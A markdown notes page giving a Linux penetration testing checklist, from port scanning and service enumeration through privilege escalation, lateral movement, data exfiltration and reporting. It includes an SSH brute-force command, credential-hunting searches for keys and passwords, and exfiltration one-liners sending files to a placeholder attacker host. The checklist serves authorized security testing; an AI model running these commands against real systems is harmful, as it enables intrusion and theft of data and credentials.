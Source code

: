 ```yaml
---
layout: notes
permalink: /notes/linux/checklist/
title: Linux Penetration Testing Checklist
---
```


# Linux Penetration Testing Checklist

## Initial Access Phase

### Port Scanning
- [ ] Full TCP scan (nmap -p-)
- [ ] UDP scan of common ports
- [ ] Service version detection
- [ ] Script scanning of discovered services
- [ ] Stealth scan: ```nmap -sS <target>```
- [ ] Masscan: ```masscan -p0-65535 <target>```

### Service Enumeration
- [ ] HTTP/HTTPS: ```nikto -h <target>, curl <target>```
- [ ] SSH: ```hydra -l admin -P passwords.txt ssh://<target>```
- [ ] SMB: ```smbclient -L <target>, enum4linux <target>```
- [ ] RPC: ```rpcinfo -p <target>```
- [ ] Databases: ```nmap --script mysql-info <target>, psql <target>```

## Post Exploitation

### Privilege Escalation
- [ ] Check SUID binaries
- [ ] Review sudo permissions
- [ ] Inspect cron jobs
- [ ] Check for kernel exploits
- [ ] Review service configurations
- [ ] Check capabilities: ``` getcap -r / 2>/dev/null ```
- [ ] Check environment variables: ```bash env, export | grep PATH ```
- [ ] Use tools: LinPEAS: ``` ./LinPEAS.sh ```, Linux Smart Enumeration: ``` ./lse.sh ``` pspy64: ``` ./pspy64```

### Lateral Movement
- [ ] Network enumeration
- [ ] Password hunting
- [ ] SSH key discovery
- [ ] Trust relationships
- [ ] ARP table: ```ip neighbor```
- [ ] Routing info: ```route -n```
- [ ] DNS for pivoting: ``` cat /etc/resolv.conf, dig <domain>```

### Data Exfiltration
- [ ] Identify sensitive files
- [ ] Database dumps
- [ ] Configuration files
- [ ] User credentials
- [ ] Exfiltrate via: ``` scp <file> user@attacker:., nc -l 4444 > data.tar.gz, curl -T data.tar.gz https://attacker.com```
- [ ] Additional sensitive files: ```find / -name "*.pem" 2>/dev/null, grep -r "password" / 2>/dev/null```

## Documentation
- [ ] Screenshot evidence
- [ ] Command outputs
- [ ] Exploitation steps
- [ ] Remediation recommendations
- [ ] Use screenshot tool: ```scrot -s```
- [ ] Save outputs: ```uname -a > system_info.txt, sudo -l > sudo_perms.txt```
- [ ] Suggest fixes: ``` “Update kernel to patch DirtyPipe”, “Remove SUID from /usr/bin/find” ```